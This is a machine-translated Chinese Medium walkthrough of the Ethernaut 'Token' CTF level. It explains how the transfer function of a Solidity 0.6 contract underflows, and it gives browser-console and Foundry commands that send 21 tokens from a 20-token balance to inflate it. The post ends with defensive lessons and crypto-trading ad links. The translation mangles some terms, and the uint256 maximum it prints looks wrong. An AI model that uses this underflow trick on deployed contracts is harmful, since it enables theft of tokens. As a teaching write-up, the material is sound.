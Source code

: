 # 以太 5 级令牌[铸造厂-安全帽]

> 原文：<https://medium.com/coinmonks/ethernaut-level-5-token-foundry-hardhat-d9d52e5ce39a?source=collection_archive---------9----------------------->

![](img/0c88bc03eb6d12515e6de05616f95175.png)

> *[*以太解决方案*](https://github.com/Chirag21/Ethernaut-solutions) *库包含使用 Foundry 和 Hardhat 的解决方案。**

# *目标*

*   *你最初获得 20 枚代币作为启动资金。您需要将合同的 20 个令牌增加到更多令牌*

*`Integer Overflow and Underflows`*

*当算术运算超过类型的最大或最小大小时，就会发生上溢或下溢。例如，如果一个数字被保存为一个`uint8`类型，它被存储为一个无符号的 8 位数字，范围从 0 到 255(2⁸-1).255 加 1 就是 0，减 1 就是 255。*

> *交易新手？在[最佳加密交易](/coinmonks/crypto-exchange-dd2f9d6f3769)上尝试[加密交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)或[复制交易](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)*

*在计算机编程中，当一个算术运算试图产生一个大于最大值或小于最小值的数值时，就会发生整数溢出。如果您将令牌余额存储在一个变量中，并在不检查的情况下增减它，这可能会变得很麻烦。*

*在比特级别发生的情况如下，*

*![](img/45d15aba43c68c1f043026f5aa61c344.png)*

# *分析*

*为了完成这一关，我们必须下溢代币余额。*

*在旧版本的 Solidity 中，没有对溢出和下溢的保护。开发人员必须实现他们的检查或者使用像 [SafeMath](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol) 这样的库。后来 Solidity 版原生实现了溢出或下溢。如果检测到上溢或下溢，则事务被还原。*

*看一看`transfer`功能，*

```
*function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}*
```

*合同使用^0.6.0.的可靠版本因此，它容易发生上溢和下溢。该功能从`msg.sender`的账户向`_to`地址发送`_value`个令牌。语句`require(balances[msg.sender] - _value >= 0)`确保余额不会变成负数。接下来的两行代码传输令牌。我们必须利用下面几行代码，*

```
*require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;*
```

*必须传递函数 _ `value` *，以便* `balances[msg.sender] - value`下溢并返回一个大数。如果我们传递 21，那么得到的值将是 uint256 所能容纳的最大数，等于 1157920892373161954235709850086879078532698466564056403945758400791312963935。可以使用`type(uint256).max`检查该值。*

1.  *`balances[msg.sender] - _value >= 0`还会真*
2.  *`balances[msg.sender] -= _value`，将天平设置为`type(uint256).max`值。*
3.  *即使我们有 20 个令牌，也有 21 个令牌将被传输到`_to`地址。*

# *剥削*

*在 Chrome 中打开开发控制台。*

*   *首先，检查你的余额*

```
*await contract.balanceOf(player)*
```

*   *用`_value` = 21 调用`transfer`*

```
*await transfer(0x4dD7ca0a5c590bc7E882AbfD873568e3128953f7, 21)*
```

*这将使余额下溢。*

*   *检查新余额*

```
*await contract.balanceOf(player)*
```

*这是一个非常大的数字，因此在控制台上无法正常显示。您可以使用 [Remix IDE](https://remix.ethereum.org/?#gist=730f1e4a5d854a3fbe175292dc1d9a08&version=soljson-v0.6.12+commit.27d51765.js&optimize=false&runs=200&evmVersion=null) 来检查余额，*

*如果您已经安装了 Foundry，请运行以下命令*

```
*cast --to-base $(cast storage --rpc-url [RPC_URL] [INSTANCE_ADDRESS] $(cast index address [PLAYER_ADDRESS] 0)) 10*
```

*开始时给了我们 20 个代币。但我们成功转移了 20 多枚代币。在这个过程中，我们的余额也增加了。*

*提交实例。*

*关卡通过！！！😄*

# *关键要点*

*   *始终使用最新的 Solidity 编译器*
*   *如果你用的是老编译器(0.8 以下)，用 [Openzeppelin 的 SafeMath 库](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol)。*
*   *即使在检查模式下，也不要认为您可以避免溢出错误。在这种模式下，溢出总是会恢复。如果无法避免溢出，这可能会导致智能合约卡在某个状态。*
*   *如果你确定表达式不会溢出或下溢，使用[未检查块](https://docs.soliditylang.org/en/v0.8.17/control-structures.html#checked-or-unchecked-arithmetic)。这将为您的最终用户节省一些汽油。*

> **[*以太解决方案*](https://github.com/Chirag21/Ethernaut-solutions) *库包含使用 Foundry 和 Hardhat 的解决方案。***
> 
> ***解决方案使用铸造:-***
> 
> **[*测试*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/foundry/5_Token.t.sol) *，* [*漏洞利用脚本*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/script/5_TokenScript.sol)**
> 
> ***使用安全帽的解决方案:-***
> 
> **[*测试*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/hardhat/5_Token.test.ts) *，* [*漏洞利用脚本*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/scripts/5_token_exploit.ts)**

**[![](img/679392ad412abc67dd16f3b9fefa799d.png)](https://www.buymeacoffee.com/0xcsp)**

# **更多级别**

**[](/coinmonks/ethernaut-level-6-delegation-foundry-hardhat-917faaff3570) [## 以太 6 级-委托[铸造-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-6-delegation-foundry-hardhat-917faaff3570) [](/coinmonks/ethernaut-level-4-telephone-foundry-hardhat-599aff68a9b4) [## 以太四级电话[铸造厂-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-4-telephone-foundry-hardhat-599aff68a9b4) 

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [用于 Huobi 的加密交易信号](https://coincodecap.com/huobi-crypto-trading-signals) | [HitBTC 审查](/coinmonks/hitbtc-review-c5143c5d53c2)
*   [TraderWagon 回顾](https://coincodecap.com/traderwagon-review) | [北海巨妖 vs 双子星 vs BitYard](https://coincodecap.com/kraken-vs-gemini-vs-bityard)
*   [如何在 FTX 交易所交易期货](https://coincodecap.com/ftx-futures-trading)
*   [OKEx vs KuCoin](https://coincodecap.com/okex-kucoin) | [摄氏替代品](https://coincodecap.com/celsius-alternatives) | [如何购买 VeChain](https://coincodecap.com/buy-vechain)
*   [ProfitFarmers 点评](https://coincodecap.com/profitfarmers-review) | [如何使用 Cornix 交易机器人](https://coincodecap.com/cornix-trading-bot)**